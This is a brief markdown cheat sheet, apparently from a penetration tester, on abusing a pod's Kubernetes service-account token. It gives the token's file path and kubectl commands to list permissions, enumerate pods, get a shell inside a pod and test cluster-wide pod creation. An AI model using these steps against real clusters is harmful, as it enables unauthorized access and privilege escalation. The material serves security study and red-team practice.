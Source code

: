 ### Kubernetes store  the token of the service account running a pod in /var/run/secrets/kubernetes.io/serviceaccount/token. 

## Token type: JWT signed by the cluster

## TIP: If an account can do * verb on *.* resource, it means it is a cluster-admin, which also means we are able to run any kubectl command we eant.

#### 1) kubectl auth can-i --list --token=${TOKEN} --certificate-authority=ca.crt

#### 2) kubectl get pods --token={TOKEN}

#### 3) kubectl exec -it POD --token={TOKEN} -- /bin/bash (This gives us a shell on the target pod)

#### 4) kubectl --token=TOKEN --certificate-authority=ca.crt --server=https://IP_ADDRESS:8443 auth can-i create pods --all-namespaces

### Interesting results from --list output: Create, get list
